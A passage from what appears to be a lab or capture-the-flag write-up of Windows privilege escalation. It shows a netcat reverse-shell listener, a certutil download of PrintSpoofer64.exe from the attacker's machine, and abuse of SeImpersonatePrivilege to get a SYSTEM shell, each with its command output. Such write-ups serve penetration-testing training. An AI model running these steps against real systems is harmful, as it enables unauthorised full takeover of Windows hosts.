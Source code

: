 ```
\                                              GrantAllPerms                     Ready     

# Start the task
PS C:\Windows\system32> Start-ScheduledTask -TaskName "GrantAllPerms"
```

`SeImpersonatePrivilege` is enabled on the target now for our `LOCAL SERVICE` account.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.120.223.
Ncat: Connection from 192.168.120.223:50883.
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Windows\system32>
```

With `SeImpersonatePrivilege` enabled on the target for the `LOCAL SERVICE` account, we can abuse this privilege using `PrintSpoofer.exe` from https://github.com/itm4n/PrintSpoofer to create a new `SYSTEM process` in our current console.

```
C:\wamp\www>certutil -urlcache -f http://192.168.118.23/PrintSpoofer64.exe PrintSpoofer64.exe
certutil -urlcache -f http://192.168.118.23/PrintSpoofer64.exe PrintSpoofer64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

# Checking SeImpersonatePrivilege abuse
C:\wamp\www>PrintSpoofer64.exe -i -c "cmd /c whoami"
PrintSpoofer64.exe -i -c "cmd /c whoami"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
nt authority\system

# Creating a new SYSTEM process in our current console
C:\wamp\www>PrintSpoofer64.exe -i -c "cmd /c cmd.exe"
PrintSpoofer64.exe -i -c "cmd /c cmd.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
```